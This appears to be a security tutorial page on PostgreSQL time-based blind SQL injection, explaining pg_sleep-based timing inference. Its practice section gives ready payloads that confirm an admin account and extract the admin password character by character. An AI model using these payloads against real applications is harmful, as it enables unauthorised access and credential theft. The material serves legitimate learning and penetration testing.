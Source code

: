 ```yaml
---
title: Exploiting PostgreSQL Time-Based SQL Injection
description: Learn to exploit PostgreSQL time-based SQL injection for secure data
  extraction.
keywords:
- PostgreSQL
- time-based SQL injection
- pg_sleep
- database security
- data exfiltration
- timing attacks
- SQL vulnerability
---
```


# PostgreSQL Time Based

## Context

This article focuses on exploiting PostgreSQL time-based SQL injection to extract sensitive data from a database. The reader should have a solid understanding of SQL syntax, HTTP requests, and general database interaction. This technique leverages time delays to infer information about the database's structure and content without needing direct data output.

## Theory

### Time-Based SQL Injection in PostgreSQL

Time-based SQL injection is an attack technique that exploits time delays to infer information from a database. It does not rely on visible error messages or direct data output. Instead, this method exploits conditional delays to determine true or false conditions. The attack sequence involves injecting SQL queries with time delay functions to observe variations in server response times.

### Key Functions for Time-Based Attacks

- **pg_sleep(seconds)**: This function delays the execution of a SQL query for a specified number of seconds. It is crucial for executing time-based attacks as it helps create measurable delays on the server side based on logical conditions.
  
- **clock_timestamp()**: Returns the current timestamp and is used for timing attacks to help determine the exact point at which a condition was met or the delay was triggered.

### Timing Attacks and Response Analysis

The core principle behind timing attacks is to use the application's response time to infer how the database responds to specific injected queries. By injecting conditional logic with `pg_sleep()`, attackers can test true and false conditions, extracting valuable information through careful analysis of response times.

## Practice

### Extracting Data via Time-Based SQL Injection

This technique involves manually injecting PostgreSQL SQL queries that use time-based functions to extract sensitive information based on server response times. Here are the typical steps involved:

- **Verify User Existence:**

    Inject a delay based on the presence of an admin user in the database:

    ```bash
    SELECT CASE WHEN (SELECT COUNT(*) FROM users WHERE username='admin') > 0 THEN pg_sleep(5) ELSE pg_sleep(0) END;
    ```

    If the server's response time is delayed, it indicates the admin user exists.

- **Extract Character from Password:**

    Check if a specific character in the admin's password matches a guess:

    ```bash
    SELECT CASE WHEN (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' THEN pg_sleep(5) ELSE pg_sleep(0) END;
    ```

    A delay suggests that the first character of the password is 'a'.

- **Determine Password Length:**

    Discover the length of the admin's password by observing response delays:

    ```bash
    SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username='admin')=8 THEN pg_sleep(5) ELSE pg_sleep(0) END;
    ```

    If the response is delayed, it indicates that the password is 8 characters long.

These steps allow the attacker to exfiltrate data by probing the database with conditional queries and analyzing the differences in response times to infer true/false conditions.

## Tools

- **sqlmap**
- **Burp Suite** 

These tools can automate the process of identifying and exploiting time-based SQL injection vulnerabilities.